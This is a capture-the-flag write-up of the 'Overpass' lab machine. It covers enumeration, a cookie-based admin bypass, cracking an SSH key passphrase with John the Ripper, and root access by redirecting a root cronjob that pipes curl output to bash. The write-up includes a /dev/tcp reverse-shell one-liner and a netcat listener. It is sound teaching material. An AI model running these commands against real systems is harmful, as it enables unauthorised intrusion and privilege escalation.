 # Overpass

##### Difficulty: [ Easy ]

**Tags:** `Linux`,  `nmap`,  `Gobuster`,  `js`,  `ssh private key`,  `john`,  `ssh`,  `cronjob`,  `reverse shell`

---

##### Written: 21/05/2021

##### IP address: 10.10.138.135

---

First, I ran an **nmap scan** to enumerate the services that are running on the target machine. The command used is:

```
sudo nmap -sC -sV -vv -oN nmap_initial 10.10.138.135
```

 **Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that there are two open ports on the machine: **SSH** and **HTTP**.

<br>

Navigating to the HTTP webserver, I can see the following page:

<img style="float: left;" src="screenshots/screenshot2.png">

Before carrying out a happy-path enumeration, I shall use **Gobuster** to see if I can enumerate any hidden directories. The command used is as such:

```
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as **.php** in my directory enumeration.

With Gobuster up and running, I can then begin to explore the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

<img style="float: left;" src="screenshots/screenshot3.png">

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans. Furthermore, it doesn't seem to be very secure by the looks of it.

Could it be the **Caesar Cipher**? I will keep this in mind for now!

<br>

Next, on the **Downloads** page, there are some files that we can download. Interestingly, they actually provide the **source code** for their password manager! I made sure to download it, as well as the **Build Script** and the **Precompiled Linux Binary**.

<img style="float: left;" src="screenshots/screenshot4.png">

Before looking at those files, let me check on the results of Gobuster:

<img style="float: left;" src="screenshots/screenshot5.png">

<br>

Nice, Gobuster managed to find an **admin login page**:

<img style="float: left;" src="screenshots/screenshot6.png">

I tried some basic SQL injections but they did not work. However, I realized that the login functionality was actually exposed in the **login.js** file that was enumerated. 

<img style="float: left;" src="screenshots/screenshot7.png">

Looking more closely at the **login()** function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint **'/api/login'**. The response is then received and the data inside is stored in a variable **statusOrCookie**. There is then a check to verify whether the user is authenticated or not. However, looking at the **else** statement which authenticates the user, if we simply create a **SessionToken** cookie and set any random value,  we will be redirected to the **/admin** page.

Let's test this out in the **developer tools > Storage**. In there, I created a cookie called SessionToken and assigned a value to it.

<img style="float: left;" src="screenshots/screenshot8.png">

<br>

Upon refreshing the page, we can see that I have gained access into the administrator panel.

<img style="float: left;" src="screenshots/screenshot9.png">

We have an RSA private key, which will probably be used to log into the ssh server that is also running on the machine. The username that uses this key could also be **James**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.

<img style="float: left;" src="screenshots/screenshot10.png">

Unfortunately we need to find out the **passphrase** for the RSA key. We can try a dictionary attack using **John the Ripper**, which is a password cracking tool. First, we need to convert the RSA key into a hash that can be cracked by JTR. To do so, we use an auxiliary tool called **ssh2john**. This can be done with the following command:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

*Note that python3 does not execute ssh2john properly!*

Now, we can use JTR with the rockyou.txt wordlist and try to crack the passphrase:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

<img style="float: left;" src="screenshots/screenshot11.png">

Nice! James's private key passphrase is **james13**. Now we can log into the ssh server.

<img style="float: left;" src="screenshots/screenshot12.png">

**With that, we can obtain the user flag from the home directory of James.**

---

Next, we have to a way to escalate our privileges. 

First, I checked out the **todo.txt** file located in the home directory of James.

<img style="float: left;" src="screenshots/screenshot13.png">

Nice, looks like James's password is stored in the password manager that he implemented. I used the **find** command to located the overpass binary on the target machine.

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**.

I executed the binary and managed to obtain James's password by retrieving all of the saved passwords:

<img style="float: left;" src="screenshots/screenshot14.png">

James password is **saydrawnlyingpicture**

<br>

Next, I'll try and see what **sudo privileges** James has on this machine.

 <img style="float: left;" src="screenshots/screenshot15.png">



Uh oh, looks like James does not have any sudo privileges at all. I will have to try another path of privilege escalation.

To automate the process, I'll be using **linpeas**, which is a privilege escalation automation script. After running the script, linpeas managed to automate a high potential PE vector.

<img style="float: left;" src="screenshots/screenshot16.png">

The *** * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash** refers to a **cronjob**, which generally has the following format:

<img style="float: left;" src="screenshots/screenshot17.png">

Essentially, the ***** symbols dictate the frequency of the cronjob. If the user to execute the command/binary is to be set, then their name will be placed right after the symbols. Then, the command to run during each interval will be placed after that. In the case of the example above, the **rm /home/someuser/tmp/*** command will run **every minute** (as shown by 5 * symbols)

<br>

How about the cronjob that was found by linpeas?

<img style="float: left;" src="screenshots/screenshot18.png">

Hence, this cronjob curls a **buildscript.sh** file from **overpass.thm/downloads/src**  every minute and executes it as it pipes it over to bash. The important thing to note is that this command is **executed as root**. We can exploit this vulnerability by creating our own bashscript.sh which sets up a **reverse shell** that connects back to our host machine. Since our buildscript.sh is piped over to bash and executed as root, the reverse shell that we obtain will be root as well.

<br>

Let's set this up!

First, I needed to know what ip address **overpass.thm** points to. Looking at the **/etc/hosts** file on the target machine, we can actually see that overpass.thm points to localhost:

<img style="float: left;" src="screenshots/screenshot19.png">

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to overpass.thm, the target machine will check the /etc/hosts file and direct the request to my machine instead.

<br>

Next, I created a bash script called **buildscript.sh** with the following command inside:

```
bash -i >& /dev/tcp/YOUR_IP_HERE/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my local host.

Next, I placed this script inside a **/downloads/src** directory within my machine. I then started up a simple http server on **port 80** using python.

Finally, I also set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

<br>

Hence, once a minute passes, the target machine will curl my created **buildscript.sh** and execute it as root, setting up a reverse shell which my netcat listener is currently listening out for.

<img style="float: left;" src="screenshots/screenshot20.png">

After a minute passed, we can see that my buildscript.sh was indeed curl'ed by the target machine.

<img style="float: left;" src="screenshots/screenshot21.png">

And with that, I have gained access to the target machine as **root**.

**I can then obtain the root flag from root.txt found in the root directory.**

